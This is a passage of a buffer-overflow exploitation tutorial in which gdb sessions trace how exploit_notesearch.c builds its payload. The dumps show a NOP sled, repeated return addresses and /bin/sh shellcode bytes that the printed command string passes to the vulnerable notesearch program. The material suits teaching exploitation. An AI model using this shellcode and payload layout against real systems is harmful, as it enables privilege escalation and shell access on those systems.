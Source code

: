 At the first breakpoint, the buffer pointer shows the result of the for loop. You can also see the relationship between the __command__ pointer and the __buffer__ pointer. The next instruction is a call to _memset()_, which starts at the beginning of the buffer and sets _60_ bytes of memory with the value _0x90_.

<pre style="color: white;">
(gdb) cont
Continuing.

Breakpoint 2, main (argc=1, argv=0xbffff894) at exploit_notesearch.c:27
27 memcpy(buffer+60, shellcode, sizeof(shellcode)-1);
(gdb) x/40x buffer
0x804a016:    0x90909090    0x90909090    0x90909090    0x90909090
0x804a026:    0x90909090    0x90909090    0x90909090    0x90909090
0x804a036:    0x90909090    0x90909090    0x90909090    0x90909090
0x804a046:    0x90909090    0x90909090    0x90909090    0xbffff6f6
0x804a056:    0xbffff6f6    0xbffff6f6    0xbffff6f6    0xbffff6f6
0x804a066:    0xbffff6f6    0xbffff6f6    0xbffff6f6    0xbffff6f6
0x804a076:    0xbffff6f6    0xbffff6f6    0xbffff6f6    0xbffff6f6
0x804a086:    0xbffff6f6    0xbffff6f6    0xbffff6f6    0xbffff6f6
0x804a096:    0xbffff6f6    0xbffff6f6    0xbffff6f6    0xbffff6f6
0x804a0a6:    0xbffff6f6    0xbffff6f6    0xbffff6f6    0xbffff6f6
(gdb) x/s command
0x804a008: "./notesearch '", '\220' &lt;repeats 60 times&gt;, "¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿
¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿"
(gdb)
</pre>

Finally, the call to _memcpy()_ will copy the shellcode bytes into _buffer+60_.

<pre style="color: white;">
(gdb) cont
Continuing.

Breakpoint 3, main (argc=1, argv=0xbffff894) at exploit_notesearch.c:29
29 strcat(command, "\'");
(gdb) x/40x buffer
0x804a016:    0x90909090    0x90909090    0x90909090    0x90909090
0x804a026:    0x90909090    0x90909090    0x90909090    0x90909090
0x804a036:    0x90909090    0x90909090    0x90909090    0x90909090
0x804a046:    0x90909090    0x90909090    0x90909090    0x3158466a
0x804a056:    0xcdc931db    0x2f685180    0x6868732f    0x6e69622f
0x804a066:    0x5351e389    0xb099e189    0xbf80cd0b    0xbffff6f6
0x804a076:    0xbffff6f6    0xbffff6f6    0xbffff6f6    0xbffff6f6
0x804a086:    0xbffff6f6    0xbffff6f6    0xbffff6f6    0xbffff6f6
0x804a096:    0xbffff6f6    0xbffff6f6    0xbffff6f6    0xbffff6f6
0x804a0a6:    0xbffff6f6    0xbffff6f6    0xbffff6f6    0xbffff6f6
(gdb) x/s command
0x804a008: "./notesearch '", '\220' &lt;repeats 60 times&gt;, "1À1Û1É\231°¤Í\200j\vXQh//shh/
bin\211ãQ\211âS\211áÍ\200¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿¶ûÿ¿"
(gdb)
</pre>
